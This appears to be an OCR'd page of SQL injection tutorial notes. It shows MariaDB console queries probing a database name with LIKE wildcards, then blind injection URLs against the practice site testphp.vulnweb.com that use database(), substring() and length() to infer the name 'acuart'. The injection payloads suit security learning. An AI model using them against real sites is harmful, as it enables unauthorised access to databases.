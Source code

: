 ```
MariaDB [dark]> select * from login where id=2 or database() like "da%";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d_rk";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or database() like "d__k";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)
```

**Name of database is "acuart" length of database is "6"**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and database() like "%art"
```

```
http://testphp.vulnweb.com/listproducts.php?cat=2 and substring(database(),1,1)="a";
```



```
http://testphp.vulnweb.com/listproducts.php?cat=2 and length(database())="6"
```
